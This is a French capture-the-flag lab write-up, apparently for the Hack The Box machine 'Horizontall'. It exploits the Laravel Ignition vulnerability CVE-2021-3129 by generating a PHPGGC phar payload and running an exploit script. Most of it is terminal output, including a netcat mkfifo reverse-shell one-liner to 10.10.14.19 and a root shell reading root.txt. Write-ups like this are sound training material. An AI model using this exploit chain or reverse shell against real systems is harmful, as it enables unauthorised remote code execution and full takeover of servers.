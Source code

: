 ### Laravel : CVE-2021-3129
https://nvd.nist.gov/vuln/detail/cve-2021-3129
On doit générer un fichier phar qui permettra d'executer une commande en particulier.
Ensuite, on peut exploiter laravel en passant au fichier python le fichier phar.
```bash
┌──(kali㉿kali)-[~/htb/Horizontall/laravel-exploits/phpggc]
└─$ python3 ./laravel-ignition-rce.py 
Usage: ./laravel-ignition-rce.py <url> </path/to/exploit.phar> [log_file_path]

Generate your PHAR using PHPGGC, and add the --fast-destruct flag if you want to see your command's result. The Monolog/RCE1 GC works fine.

Example:
  $ php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system id
  $ ./laravel-ignition-rce.py http://127.0.0.1:8000/ /tmp/exploit.phar
```

### Exploit - gaining root shell
```bash
┌──(kali㉿kali)-[~/htb/Horizontall/laravel-exploits/]
└─$  git clone https://github.com/ambionics/phpggc.git; cd phpggc
...

## On génère le fichier phar qui executera la commande "id"
┌──(kali㉿kali)-[~/htb/Horizontall/laravel-exploits/phpggc]
└─$ php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.19 6666 >/tmp/f"


┌──(kali㉿kali)-[~/htb/Horizontall/laravel-exploits/phpggc]
└─$ cd ..                      
            
┌──(kali㉿kali)-[~/htb/Horizontall/laravel-exploits]
└─$ python3 ./laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar               
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !

--------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6666                    
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.105] 54562
bash: cannot set terminal process group (25151): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# whoami
whoami
root
root@horizontall:/home/developer/myproject/public# cat /root/root.txt
cat /root/root.txt
a901e.....5a11
```